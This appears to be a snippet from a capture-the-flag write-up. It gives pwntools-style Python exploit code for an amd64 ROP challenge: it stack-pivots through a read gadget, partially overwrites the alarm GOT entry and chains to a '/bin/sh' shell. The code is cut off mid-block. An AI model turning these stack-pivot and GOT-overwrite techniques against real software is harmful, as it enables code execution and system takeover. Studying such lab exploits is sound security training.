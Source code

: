 ```py
    '''
    File:     /home/alter/lab/Practice/ASCIS2024/ROP/chall
    Arch:     amd64
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    '''
    def exploit():

        pop_rdi = 0x401247
        read_gadget = 0x401249
        rw_section = 0x404100

        pl = flat(
            b'A' * 0x20,
            exe.got.alarm + 0x20 + 0x20,    # saved rbp 1
            read_gadget                     # saved rip 1
        )

        # input("1st")
        sleep(0.5)
        s(pl)

        # 0x404040
        pl = flat(
            rw_section + 0x20,             # saved rbp 3
            read_gadget,                   # saved rip 3
            b'B' * 0x10,
            exe.got.alarm + 0x20,          # saved rbp 2
            read_gadget                    # saved rip 2
        )

        # input("2nd")
        sleep(0.5)
        s(pl)

        # input("3rd")
        sleep(0.5)
        s(p16(0xd1c0))

        pl = flat(
            b'/bin/sh\0',                  # saved rbp 5
            pop_rdi,                       # saved rip 5
            rw_section,
            exe.plt.alarm,
            rw_section,                    # saved rbp 4
            read_gadget,                   # saved rip 4
        )

        # input("4th")
        sleep(0.5)
        s(pl)

        # input("5th")
        sleep(0.5)
        s(b'\0')

        try:
            sl(b'echo DONE!')
```